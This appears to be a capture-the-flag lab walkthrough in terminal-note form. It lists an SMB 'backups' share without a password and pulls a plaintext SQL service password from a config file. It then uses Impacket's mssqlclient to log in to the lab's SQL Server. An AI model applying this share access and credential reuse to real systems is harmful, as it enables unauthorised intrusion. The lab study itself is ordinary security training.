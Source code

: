               smbclient -N \\\\10.129.79.20\\backups
              Try "help" to get a list of possible commands.
              smb: \> ls
                .                                   D        0  Mon Jan 20 07:20:57 2020
                ..                                  D        0  Mon Jan 20 07:20:57 2020
                prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020


                                        "Found some credentials in  prod.dtsConfig"  
                                        Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;
________________________________________________________________________________________________________________________

### Impacket ###

    -Impacket is a collection of Python classes for working with network protocols. Impacket is
    focused on providing low-level programmatic access to the packets and for some protocols
    (e.g. SMB1-3 and MSRPC) the protocol implementation itself.

#Impacket
             https://github.com/fortra/impacket.git

#setting up
            sudo python3 setup.py install

#running                                                                                                                                                                                                      >
            python3 mssqlclient.py -h
________________________________________________________________________________________________________________________

""" Got a connection! """
pythonn3 mssqlclient.py ARCHETYPE/sql_svc@10.129.79.20 -windows-auth
Impacket v0.13.0.dev0+20250814.3907.9282c9bb - Copyright Fortra, LLC and its affiliated companies

  Password:
  [*] Encryption required, switching to TLS
  [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
  [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
  [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
  [*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
  [*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
  [*] ACK: Result: 1 - Microsoft SQL Server 2017 RTM (14.0.1000)
  [!] Press help for extra shell commands
  SQL (ARCHETYPE\sql_svc  dbo@master)>
  
